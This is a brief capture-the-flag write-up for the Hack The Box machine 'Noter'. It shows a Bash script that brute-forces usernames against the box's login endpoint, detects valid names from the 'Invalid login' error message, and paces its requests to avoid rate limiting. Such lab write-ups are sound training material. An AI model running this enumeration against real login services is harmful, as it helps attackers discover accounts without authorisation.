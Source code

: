 # Noter

Rated as medium, the box will put your logic to the test.

At the beginning, to access the targeted backend, I needed this tiny Bash script:

```bash
for w in $(cat $1)
do
    r=$(curl -X POST -d "username=$w" -d "password=123" http://$2/login)
    if [[ $r == *"Invalid login"* ]]; then
        echo "$w" > username.txt
        exit 0
    fi
    sleep .25 # in case of rate limiting
done
```

`$1` is for the path to your wordlist (for usernames), and `$2` is for the IP machine to attack.

It does not give you the password because we want to find the username here. I've read comments on the HTB forum that say you can find it without any brute force. Well, even if the username is in a notorious wordlist (not Rockyou), it's still pretty uncommon in such context.
